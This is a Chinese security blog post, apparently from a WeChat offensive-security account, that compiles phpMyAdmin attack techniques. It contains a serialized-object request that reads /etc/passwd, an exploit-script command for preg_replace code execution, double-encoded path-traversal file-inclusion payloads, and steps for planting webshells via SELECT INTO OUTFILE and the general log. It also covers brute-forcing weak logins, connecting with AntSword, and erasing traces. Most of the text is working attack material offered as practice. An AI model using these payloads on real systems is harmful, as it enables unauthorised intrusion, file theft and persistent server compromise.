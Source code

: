 #  【攻防实战】phpmyadmin-RCE集锦  
原创 平凡安全  平凡安全   2025-06-07 12:00  
  
## 「phpmyadmin反序列化漏洞」  
### 「漏洞描述」  
  
phpmyadmin 2.x版本中存在一处反序列化漏洞，通过该漏洞，攻击者可以读取任意文件或执行任意代码。  
### 「影响范围」  
  
2.x  
### 「实战过程」  
  
访问  
```
http://x.x.x

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YY73ZNed4ZAOuC1TGFWGRrWQ2fraeo0icJyvqzuoGKsfZTdAr9QEVucw/640?wx_fmt=png&from=appmsg "")  
  
抓包，修改发送如下数据包，即可读取/etc/passwd：  
```
POST /scripts/setup.php HTTP/1.1


action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}

```  
  
漏洞证明：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YN6S6X11lCTOBqWq4U0yiapNz4aDH8kkeZFTnxQJaWHIOmzwZ6WhyUUw/640?wx_fmt=png&from=appmsg "")  
## 「phpmyadmin远程代码执行漏洞」  
### 「漏洞描述」  
  
phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。在其查找并替换字符串功能中，将用户输入的信息拼接进preg_replace函数第一个参数中。  
  
在PHP5.4.7以前，preg_replace的第一个参数可以利用\0进行截断，并将正则模式修改为e。众所周知，e模式的正则支持执行代码，此时将可构造一个任意代码执行漏洞。  
### 「影响范围」  
  
4.0.10.16之前4.0.x版本  
  
4.4.15.7之前4.4.x版本  
  
4.6.3之前4.6.x版本（实际上由于该版本要求PHP5.5+，所以无法复现本漏洞）  
### 「实战过程」  
  
访问该页面，存在弱口令  
```
http://x.x.x

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YarbiabC78D4DcwpgQftl7880OEwP2AYzpaL52gsLa09xhbZTIMTSZlA/640?wx_fmt=png&from=appmsg "")  
  
爆破进入后发现该php版本以及phpmyadmin版本信息，该版本存在远程命令执行漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YP5dMPJBszhLAOI6gEsTotT6YHU7hTgPn40E45OiamUlvfjbgVFaRjNw/640?wx_fmt=png&from=appmsg "")  
  
使用exp利用此漏洞：  
  
-u是用户 -p是密码，-d是可以写入的数据库，没有就新建一个。-c是待执行的PHP语句，如果没有指定表名，这个POC会创建一个名为prgpwn的表。  
```
python3 xxx.py http://x.x.x/ -u xxx -p xxx -d test -c "system('id');"

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YHuUBBr1CI8vFXcZxe30XI8n16M07Ric653Fkb5ehpRX7WVythSpk5dg/640?wx_fmt=png&from=appmsg "")  
  
成功执行命令，并且在test数据库下创建了一个名为prgpwn的表  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YaTic5tGdwiaOa2Ch3U9uBB0Arib4DqDGmS0Obwq3ib6XwOXc7YFzrY9Wgw/640?wx_fmt=png&from=appmsg "")  
## 「phpmyadmin远程文件包含漏洞」  
### 「漏洞简介」  
  
phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。  
### 「漏洞实战」  
  
访问url，即可进入phpmyadmin。配置的是“config”模式，所以无需输入密码，直接登录test账户。  
```
http://x.x.x

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YFrX7nrl1w9JOTAFahZdtzR2r9dicVhuKIbvyP1uSU9gomfWZvypMwDg/640?wx_fmt=png&from=appmsg "")  
  
构造任意文件读取的payload并进行访问：  
```
http://x.x.x/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd

```  
  
可见/etc/passwd被读取，说明文件包含漏洞存在：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7Y1jyUUvslaQiaR2jZDqzdzOiaoF8sj6wzaicyqf9h94exXoaw98yIem6Ug/640?wx_fmt=png&from=appmsg "")  
  
利用方式也比较简单，访问SQL语句的执行页面，可以执行一下  
```
SELECT '<?=phpinfo()?>

```  
  
然后查看自己的sessionid（cookie中phpMyAdmin的值），然后包含session文件即可。  
  
访问SQL语句的执行页面：  
  
执行一下  
```
SELECT '<?=phpinfo()?>

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7Yda9ibvhiaP7YFV25FXmjCpScEscibovd2II1YrAAUbq1XicDxwLkZZn20A/640?wx_fmt=png&from=appmsg "")  
  
然后查看自己的sessionid（cookie中phpMyAdmin的值）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YJXglu5u8rvruAibjOcfaDsGym2icibpb1qyqgQ0ZP3FbZGibUpLKCBSVBw/640?wx_fmt=png&from=appmsg "")  
  
然后包含session文件：  
```
http://x.x.x/?target=tbl_zoom_select.php?/../../../../../../tmp/sess_xxxxx...  

```  
  
成功包含phpinfo页面：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YaswQryw80ibQJ9iaBsicwJrgLql57MhxqygIjOaUiaeMclz5G242QgTopA/640?wx_fmt=png&from=appmsg "")  
## 「select into outfile写入webshell」  
  
首先查看查看secure_file_priv值  
```
show global variables like '%secure%';

```  
  
secure_file_priv的值如图所示  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YdLQObk8a5Jt5picZib79K2y3Rf4bKaribzZsysMfbbsUIHRqDqlOBMl8Q/640?wx_fmt=png&from=appmsg "")  
  
写入一句话  
```
select 'xxx' INTO OUTFILE 'xxx.php'

```  
  
这里需要注意的一个点是路径需要用”\“  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YGzRt3xx0YGFOicfNlibvB0OK5gIj6DOsZGicvpCOZ0vicfdp5DMON6RAvQ/640?wx_fmt=png&from=appmsg "")  
  
成功连接webshell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7Y3INgh6eBxBXw3JqvOjAaKgleZqRspuvwEOe7U14rVxpLGQvDDmAmPA/640?wx_fmt=png&from=appmsg "")  
## 「phpmyadmin日志写入webshell」  
  
先查看general log是否开启  
```
show variables like '%general%';

```  
  
打开general_log日志读写功能  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YVT858jFLMicicxdn0H4ElcyNYam0cibaj1tytqLjPJN594hvzTsQHDaSw/640?wx_fmt=png&from=appmsg "")  
  
制作一个木马文件，要根据图中general_log_file中的绝对路径  
```
SET GLOBAL general_log_file='xxx.php'

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7Yic9mrvSbXNDyvoRmuOfdfPLjkewz4D0hpZuYmibica9baqmRia43ejVvHg/640?wx_fmt=png&from=appmsg "")  
  
往这个木马文件中写入一句话  
```
SELECT 'xxx'

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YCCqhvXqpsdv0Nibnibbdg99Ayv3nrWkicdFRlpEGb6pPYgBCrPygy3U4g/640?wx_fmt=png&from=appmsg "")  
  
使用phpinfo验证  
  
利用过程  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7Ytxw0ic6FmOVKHwhvdicRYXkGZb0kHqXXB4vOKL2zNZKm2K3Io9tp3lsg/640?wx_fmt=png&from=appmsg "")  
  
蚁剑连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7Ybeu64tov7xSia7x3ja3WkvX93rx7Zgqgm3KxGsuatNAQqp7e5x4oGBw/640?wx_fmt=png&from=appmsg "")  
  
最后抹除痕迹  
## 「攻防交流群」  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/v94hWOZcBpyCgzPtoL0dslz4iaHpdiaK7YCkw3RrjtwetaaGricxewahXSh6fTicyOT3GBicHzPnhL1iay7stibtCiaE0g/640?wx_fmt=jpeg&from=appmsg "")  
## 「声明」  
  
文笔生疏，措辞浅薄，敬请各位大佬不吝赐教，万分感谢。  
  
免责声明：由于传播或利用此文所提供的信息、技术或方法而造成的任何直接或间接的后果及损失，均由使用者本人负责， 文章作者不为此承担任何责任。  
  
转载声明：儒道易行 拥有对此文章的修改和解释权，如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章的内容，不得以任何方式将其用于商业目的。  
  

